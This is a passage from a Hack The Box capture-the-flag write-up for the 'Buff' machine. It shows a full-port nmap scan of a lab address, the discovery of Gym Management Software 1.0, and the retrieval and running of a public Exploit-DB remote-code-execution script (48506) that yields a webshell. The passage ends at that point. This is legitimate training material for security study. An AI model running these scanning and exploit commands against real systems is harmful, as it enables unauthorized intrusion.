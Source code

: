 ```yaml
---
title: HTB - Buff
description: ""
date: 2024-08-20 06:20:00 -0600
categories:
  - writeups
  - hackthebox
  
tags:
  - writeup
  - bufferoverflow
  - pivoting
  - eccptv2
  - hackthebox
image:
  path: https://htb-mp-prod-public-storage.s3.eu-central-1.amazonaws.com/avatars/093f9f313b10d6e1dc4668d6c8485761.png

---
```


## Enumeration

I start with a nmap scan on all tcp ports of the machine
```bash
$ sudo nmap -sS -p- --open -n -Pn --min-rate=5000 10.10.10.198 -vvv
PORT     STATE SERVICE    REASON
7680/tcp open  pando-pub  syn-ack ttl 127
8080/tcp open  http-proxy syn-ack ttl 127
```

visiting the port 8080 of the machine I find a "gym" website, heading to contact.php I find is a site built with Gym Management Software 1.0

![Desktop View](/assets/img/htb/buff/contact_php.png)

## shell as shaun

Searching for exploits I find an unauthenticated remote command execution for  [__gym management system 1.0__](https://www.exploit-db.com/exploits/48506), I clone the script to my machine
```bash
$ searchsploit -m php/webapps/48506.py
```

and I run the script 

```bash
$ ./48506.py http://10.10.10.198:8080/
...<snip>...
[+] Successfully connected to webshell.
C:\xampp\htdocs\gym\upload>
```
